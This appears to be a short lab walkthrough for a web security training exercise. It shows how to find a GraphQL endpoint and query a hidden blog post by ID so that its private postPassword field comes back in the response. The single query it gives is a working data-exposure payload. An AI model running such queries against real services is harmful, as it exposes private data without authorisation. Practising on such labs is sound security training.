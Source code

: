 # Accessing private GraphQL posts

Check Network and find `/graphql/v1` query

[Save GraphQL queries to site map](https://portswigger.net/burp/documentation/desktop/testing-workflow/working-with-graphql)

Use Intruder or investigate blog posts IDs. Id "3" is missing in list. Query it:

```json
{
    "query": "query($id: Int!) { getBlogPost(id: $id) { id, image, title, author, date, summary, paragraphs, isPrivate, postPassword } }",
    "variables": {
        "id": 3
    }
}
```

Read "postPassword" value from response.
